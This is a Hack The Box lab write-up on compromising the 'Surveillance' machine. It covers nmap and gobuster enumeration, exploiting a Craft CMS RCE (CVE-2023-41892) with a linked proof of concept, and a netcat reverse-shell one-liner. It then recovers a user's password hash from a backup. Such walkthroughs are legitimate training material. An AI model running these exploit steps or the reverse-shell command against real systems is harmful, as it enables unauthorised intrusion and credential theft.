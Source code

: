 # Surveillance


<p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/6acae25e-f039-4ff6-b160-876222d82942" align="center" alt="keeper-htb" />
</p>



## Introduction :

The Surveillance machine on Hack The Box presented a challenging learning opportunity. The journey involved Nmap scanning, web enumeration, and directory busting to discover an admin login on Craft CMS. Leveraging a Remote Code Execution (RCE) exploit, initial access was gained, leading to the discovery of a user named Matthew. After cracking Matthew's password, SSH access was achieved.

The privilege escalation involved MySQL credentials, "zoneminder" configurations, and a version-specific exploit using Metasploit. Despite challenges, a method to escalate privileges to root was found by manipulating the "user" parameter in zmupdate.pl. The write-up underscores the importance of thorough reconnaissance, exploit analysis, and creative problem-solving in successfully navigating the complexities of the Surveillance machine on HTB.


## Ennumiration :

We start with simple port & services scan and got two standard ports. When we access the web page, it has a specific CMS.

```bash
nmap -p- -T4 -A -sV 10.10.11.245
```

Because HTTP is an open protocol, we can verify whether a webpage can be seen in a web browser.

```bash
sudo echo "10.10.11.245 surveillance" >> /etc/hosts
```
The website appears to be experiencing difficulty locating the site. In such instances, you can resolve the issue by adding the IP and DNS name to the /etc/hosts file.

## Enumerating Directories

Now that we have access to the webpage, let's engage in directory enumeration. In this scenario, we will employ GoBuster.
```bash
gobuster dir -u http://surveillance.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.4-medium.txt -x .php,.html,.txt,.zip
```

I’ve obtained access to an admin login, and it’s running on Craft CMS.

I examined the source code of surveillance.htb/index.php and determined the version it is running.

Upon researching the version online, I discovered a proof of concept for Remote Code Execution (RCE).

## Exploit :

This Gist provides a Proof-of-Concept (POC) for CVE-2023-41892, a Craft CMS vulnerability that allows Remote Code Execution (RCE).


CVE-2023-41892 is a security vulnerability discovered in Craft CMS, a popular content management system. Craft CMS versions affected by this vulnerability allow attackers to execute arbitrary code remotely, potentially compromising the security and integrity of the application.

POC GIST-  https://gist.githubusercontent.com/to016/b796ca3275fa11b5ab9594b1522f7226/raw/4742df53be0584c68d6f7550224948fc6709fea9/CVE-2023-41892-POC.md

You need to edit this part of the script for it to work.

```bash 
response = requests.post(url,  headers=headers, data=data, proxies={"http" : http://127.0.0.1:8080"}} 
```

It should get you a shell.

```bash 
python3 POC.py http://surveillance.htb/
```

After successfully exploit and gaining initial access using the PoC, the subsequent step involves obtaining a secure and robust shell for executing bash commands.

I found the following one-liner:

```bash

rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.11.246 4444 >/tmp/f

```

— THE IP AND PORT CAN BE CUSTOMIZED ACCORDING TO USER PREFERENCES.

To elaborate:

The rm command eliminates any pre-existing file at /tmp/f.
The mkfifo command generates a named pipe at /tmp/f.
The cat | /bin/bash pipeline forms an interactive Bash shell linked to the named pipe.
The nc command initiates a network connection, channeling the entire output, including the Bash shell output, back into the named pipe.

This should result in a fully operational shell.
```bash
nc -nvlp 4444
```

During my exploration, I stumbled upon a backup directory nestled within the storage repository.

Subsequently, I proceeded to relocate or duplicate the directory, transitioning it from the storage folder to the hosted web server.

Following this relocation, I initiated a wget command to extract and retrieve the contents of the file, thereby incorporating the backup data into the current environment.

I extracted the contents of the file and examined them to locate specific credentials. Within the extracted data, I identified a user named Matthew along with an encrypted password.

To discern the hashing algorithm employed for Matthew's password, I employed Hash-Identifier. The analysis suggests that the hash might have been generated using SHA-256.


